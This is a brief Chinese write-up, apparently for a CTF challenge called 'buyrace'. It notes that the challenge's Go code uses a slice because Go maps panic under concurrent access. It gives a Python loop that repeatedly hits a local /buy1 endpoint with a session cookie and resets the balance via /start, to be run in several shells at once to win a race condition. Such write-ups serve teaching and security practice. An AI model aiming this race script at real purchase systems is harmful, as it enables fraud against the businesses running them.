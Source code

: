 # buyrace

题目说了race。强行竞态条件。

本来是用自带map的但是go从某个版本开始map有并发读写会panic。就强行用slice了。

```python
import requests

headers = {
        "Host": "localhost:4000",
        "Cookie": "name=sx#fobpmplozflh"
        }

while True:
    r = requests.get("http://localhost:4000/buy1", headers=headers)
    print(r.text)
    if "余额不足" in r.text:
        requests.post("http://localhost:4000/start", headers=headers)

```

开几个shell同时跑